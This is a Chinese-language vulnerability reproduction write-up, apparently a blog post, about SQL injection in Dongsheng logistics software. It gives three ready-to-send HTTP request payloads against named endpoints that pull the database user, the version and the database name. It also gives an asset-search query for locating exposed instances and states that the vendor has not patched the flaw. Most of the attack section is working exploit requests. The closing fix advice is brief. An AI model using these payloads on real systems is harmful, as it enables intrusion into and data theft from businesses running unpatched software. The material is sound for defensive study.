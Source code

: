 
# 东胜物流软件 SQL 注入漏洞复现

### 0x01 产品简介

 东胜物流软件是一款致力于为客户提供 IT 支撑的 [SOP](https://so.csdn.net/so/search?q=SOP&spm=1001.2101.3001.7020)，帮助客户大幅提高工作效率，降低各个环节潜在风险的物流软件。

### 0x02 漏洞概述

东胜物流软件 TCodeVoynoAdapter.aspx、/TruckMng/MsWlDriver/GetDataList、/MvcShipping/MsBaseInfo/SaveUserQuerySetting 等接口处存在 [SQL](https://so.csdn.net/so/search?q=SQL&spm=1001.2101.3001.7020) 注入漏洞，攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

### 0x03 复现环境

微步资产测绘：app=东胜物流软件

### ![](assets/1701134640-878dc246fd7b10e21623127a67e6d803.png)0x04 漏洞复现 

**PoC-1**

```cobol
GET /FeeCodes/TCodeVoynoAdapter.aspx?mask=0&pos=0&strVESSEL=1%27+and+user+%3E0%3B-- HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
```

查询当前用户

![](assets/1701134640-36b13a9ef03b3aa72cfa88ba10ca0a74.png)

**PoC-2** 

```cobol
GET /TruckMng/MsWlDriver/GetDataList?_dc=1665626804091&start=0&limit=30&sort=&condition=123+IN+(CHAR(113)%2bCHAR(120)%2bCHAR(112)%2bCHAR(113)%2bCHAR(113)%2bCHAR(32)%2b(select+%40%40version)%2bCHAR(32)%2bCHAR(113)%2bCHAR(122)%2bCHAR(107)%2bCHAR(113)%2bCHAR(113))--%20&page=1 HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
```

[查询数据库版本](https://so.csdn.net/so/search?q=%E6%9F%A5%E8%AF%A2%E6%95%B0%E6%8D%AE%E5%BA%93%E7%89%88%E6%9C%AC&spm=1001.2101.3001.7020)

![](assets/1701134640-9dae57672c471ee1226fc7bb54a662db.png)

PoC-3

```cobol
POST /MvcShipping/MsBaseInfo/SaveUserQuerySetting HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

formname=MsRptSaleBalProfitShareIndex'+AND+2523+IN+(SELECT+(CHAR(113)%2bCHAR(120)%2bCHAR(112)%2bCHAR(113)%2bCHAR(113)%2b(SELECT+SUBSTRING((ISNULL(CAST((+db_name%28%29)+AS+NVARCHAR(4000)),CHAR(32))),1,1024))%2bCHAR(113)%2bCHAR(122)%2bCHAR(107)%2bCHAR(113)%2bCHAR(113)))+AND+'uKco'%3d'uKco&isvisible=true&issavevalue=true&querydetail=%7B%22PS_MBLNO%22%3A%22%22%2C%22PS_VESSEL%22%3A%22%22%2C%22PS_VOYNO%22%3A%22%22%2C%22PS_SALE%22%3A%22%5Cu91d1%5Cu78ca%22%2C%22PS_OP%22%3Anull%2C%22PS_EXPDATEBGN%22%3A%222020-02-01%22%2C%22PS_EXPDATEEND%22%3A%222020-02-29%22%2C%22PS_STLDATEBGN%22%3A%22%22%2C%22PS_STLDATEEND%22%3A%22%22%2C%22PS_ACCDATEBGN%22%3A%22%22%2C%22PS_ACCDATEEND%22%3A%22%22%2C%22checkboxfield-1188-inputEl%22%3A%22on%22%2C%22PS_CUSTSERVICE%22%3Anull%2C%22PS_DOC%22%3Anull%2C%22hiddenfield-1206-inputEl%22%3A%22%22%7D}
```

 查询当前数据库

![](assets/1701134640-4f6d958652577c98a524e307f1dc7b17.png)

### 0x05 修复建议

官方暂未修复该漏洞，请用户联系厂商修复漏洞：http://www.dongshengsoft.com/

部署 Web 应用防火墙，对数据库操作进行监控。

如非必要，禁止公网访问该系统。
